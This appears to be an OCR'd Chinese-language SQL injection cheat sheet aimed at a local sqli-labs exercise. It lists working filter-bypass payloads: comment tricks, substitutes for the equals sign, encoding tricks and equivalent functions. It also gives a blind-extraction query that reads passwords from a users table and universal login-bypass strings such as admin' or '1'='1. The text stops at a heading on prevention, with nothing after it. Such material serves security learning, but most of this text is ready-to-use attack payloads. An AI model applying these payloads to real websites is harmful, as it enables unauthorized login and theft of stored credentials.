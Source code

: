 # 注释符 # -- 绕过

  如果过滤了# 和 --   ，则可以利用 ||'来绕过
  
  // 对于这种sql语句，可以用下面的语句构造绕过
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
http://127.0.0.1/sqli/Less-1/?id=1' union 1,2,3 #
http://127.0.0.1/sqli/Less-1/?id=1' union 1,2,3||'
http://127.0.0.1/sqli/Less-1/?id=1' union 1,2,'3

# 等号= 绕过

使用like、rlike、regexp 或者使用 <   >　

# 通用绕过（编码）

如 URL编码，ascii 编码，HEX , unicode 编码绕过等

比如： Test可以为 char(101)+char(97)+char(115)+char(116)

# 等价函数绕过

hex()、bin() ==> ascii()
 
sleep() ==>benchmark()
 
concat_ws()==>group_concat()
 
mid()、substr() ==> substring()
 
@@user ==> user()
 
@@datadir ==> datadir()
 
举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　
 
或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1

传说中的万能密码 

sql="select*from test where username=' XX '  and password=' XX '  ";

admin' or '1'='1                  XX         //万能密码(已知用户名)
XX                                  'or'1'='1     //万能密码(不需要知道用户名)
'or '1'='1'#                          XX         //万能密码(不知道用户名)

# SQL注入的预防

既然SQL注入的危害那么大，那么我们要如何预防SQL注入呢？
